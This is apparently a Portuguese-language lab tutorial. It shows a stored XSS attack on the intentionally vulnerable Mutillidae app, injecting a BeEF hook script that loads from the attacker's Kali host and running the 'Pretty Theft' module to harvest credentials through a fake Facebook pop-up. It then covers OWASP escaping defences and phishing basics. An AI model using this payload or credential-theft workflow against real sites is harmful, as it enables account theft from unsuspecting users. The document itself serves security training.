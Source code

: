 Vá até a página da mutillidae que está na url: http:// [ip do servidor]/mutillidae e clique no botão Reset DB para apagar todas as informações dos exercícios anteriores. E posteriormente acesse a página do blog em:

OWASP 2013 -> A3 - Cross Site Scripting (XSS) -> Persistent (Second Order) -> Add to your blog

Coloque o script do Beef na mensagem do blog:

```js
<script src="http://[ip do Kali Linux]:3000/hook.js">
```

Caso o Beef não tenha aberto uma aba no browser, abra uma nova aba e coloque a url: http://127.0.0.1:3000/ui/authentication

Para se autenticar no Beef, coloque usuário e senha beef e beef. Vá até o seu computador, abra o browser e vá até a página do blog, posteriormente volte ao Kali Linux e veja se o Beef capturou a vítima. Na aba esquerda selecione a vítima

beef-vitimas

Posteriormente vá até a aba Commands e digite na aba Search, Pretty Theft. Clique no botão Execute e volte para o browser da vítima.

Veja se o pop-up do Facebook apareceu na janela da vítima.

beef-facebook

Coloque um usuário e senha e volte até o Beef. Qual o resultado?

Obs: Não tente isso com outras pessoas!

### Owasp

No site da owasp de 2017 vemos que Cross-Site Scripting XSS aparece na sétima posição e a forma de evitar isso é fazendo se tem tag aberta na mensagem (isso é se ela aceita html) e se há scripts sendo mandadas na nossa mensagem por causa disso e a owasp recomenda algumas prevenções para serem aplicadas (nesse vale a pena ler como, caso você precise)

De acordo com a OWASP, uma das formas de prevenir o ataque de Cross Site Scripting (XSS) seria de realizar o escaping de elementos HTML prevenindo assim que seja interpretado como um contexto de execução. Por exemplo em Java, a OWASP possui uma biblioteca (ESAPI) que auxilia nessas questões. Poderíamos colocar em nossa programação no back-end:

```js
String encoding=ESAPI.encoder().encodeForJavaScript();
```

Dessa forma, se colocarmos:

`<script>` , através do escaping teremos a conversão desses elementos html para seus respectivos códigos: `&ltscript&gt`

Link de download da ESAPI: https://github.com/ESAPI/esapi-java

## Engenharia Social

Engenharia social é basicamente enganar as pessoas fazendo as acreditar que eles estão acessando um site conhecido como amazon, netflix, youtube com um html todo parecido porém com um link duvidoso via email, sms ou em uma rede social. E assim eles pegam seu email e senha com vc digitando isso para elas.
